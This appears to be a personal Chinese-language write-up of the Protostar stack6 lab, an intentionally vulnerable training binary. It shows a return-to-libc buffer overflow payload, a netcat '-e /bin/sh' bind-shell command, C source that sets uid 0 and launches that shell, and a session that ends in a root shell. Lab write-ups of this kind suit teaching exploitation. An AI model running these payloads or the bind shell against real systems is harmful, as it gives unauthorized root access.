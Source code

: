 python -c "print 'A'*80 + '\xb0\xff\xec\xb7' + '\x54\xe1\xf2\xb7' +'\xc8\xff\xff\xbf' "|/opt/protostar/bin/stack6

但没有反弹shell。奇怪啊。(掉权限问题。很奇怪)

python -c "print 'A'*80 + '\xb0\xff\xec\xb7' + '\x54\xe1\xf2\xb7' +'\xc8\xff\xff\xbf' " >/tmp/ss1

/opt/protostar/bin/stack6

再次失败。

export AAA="nc -lp8080 -e/bin/sh"
不OK。

python -c "print 'A'*80 + '\xb0\xff\xec\xb7' + '\x54\xe1\xf2\xb7' +'\xbc\xff\xff\xbf' " |/opt/protostar/bin/stack6

protostar的gcc环境貌似有问题。我们别处编译个nc的反弹程序SCP上来
```
#include <stdlib.h>

int main(int argc, char **argv, char **envp) {
    setuid(0); // These two are necessary, as system() drops privileges
    setgid(0);
    char *args[] = {  "nc", "-lp8080", "-e/bin/sh", (char *) 0 };
    execve("/bin/nc", args, envp);
}
```

```
$export AAA=/////////////////////////////////////tmp/netc

$./getenv

0xbfffffbc

$python -c "print 'A'*80 + '\xb0\xff\xec\xb7' + '\x54\xe1\xf2\xb7' +'\xbc\xff\xff\xbf' " |/opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA°ÿì·AAAAAAAAAAAA°ÿì·Táò·¼ÿÿ¿
sh: ////////////////////tmp/netc: Permission denied
$chmod 777 /tmp/netc
$python -c "print 'A'*80 + '\xb0\xff\xec\xb7' + '\x54\xe1\xf2\xb7' +'\xbc\xff\xff\xbf' " |/opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA°ÿì·AAAAAAAAAAAA°ÿì·Táò·¼ÿÿ¿
```

```
D:\>nc 192.168.48.128 8080
id
uid=0(root) gid=0(root) groups=0(root),1001(user)
ps
  PID TTY          TIME CMD
 3985 pts/0    00:00:00 sh
 4000 pts/0    00:00:00 cat
 4376 pts/0    00:00:00 stack6
 4377 pts/0    00:00:00 sh
 4378 pts/0    00:00:00 sh
 4380 pts/0    00:00:00 ps
whoami
root
```
